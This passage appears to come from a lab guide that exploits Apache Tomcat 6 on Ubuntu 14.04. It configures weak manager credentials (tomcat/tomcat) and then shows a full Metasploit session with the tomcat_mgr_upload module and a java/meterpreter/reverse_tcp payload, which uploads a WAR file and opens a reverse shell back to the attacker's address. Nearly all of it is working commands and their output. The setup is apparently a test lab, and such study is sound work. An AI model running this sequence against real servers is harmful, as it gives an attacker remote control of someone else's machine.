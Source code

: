 ```
Meterpreter : java/windows
```

## Linux

### Tomcat6 (6.0.39) - Ubuntu server 14.04 64bit

#### Setup

1. Install Tomcat and dependencies: `sudo apt-get install tomcat6 tomcat6-admin`

#### Exploit

1. Edit `/etc/tomcat6/tomcat-users.xml` to add the following:

```xml
<role rolename="manager"/>
<user username="tomcat" password="tomcat" roles="manager"/>
```

2. Restart the service if a user was added/changed: `sudo service tomcat6 restart`

3. Exploit:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > set verbose true
verbose => true
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.156
rhost => 192.168.2.156
msf exploit(tomcat_mgr_upload) > set rport 8080
rport => 8080
msf exploit(tomcat_mgr_upload) > check

[*] Tomcat Manager found running on linux platform and x64 architecture
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.156:8080 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Finding CSRF token...
[*] Uploading and deploying biytXntmq4Dtie0ulwwT...
[*] Uploading 6082 bytes as biytXntmq4Dtie0ulwwT.war ...
[!] No active DB -- Credential data will not be saved!
[*] Executing biytXntmq4Dtie0ulwwT...
[*] Executing /biytXntmq4Dtie0ulwwT/rmslIdWH4LwPZlMkHipzUah.jsp...
[*] Finding CSRF token...
[*] Undeploying biytXntmq4Dtie0ulwwT ...
[*] Sending stage (49409 bytes) to 192.168.2.156
[*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.156:55062) at 2017-01-15 20:29:42 -0500

meterpreter > sysinfo
Computer    : Ubuntu14
OS          : Linux 4.2.0-27-generic (amd64)
Meterpreter : java/linux
```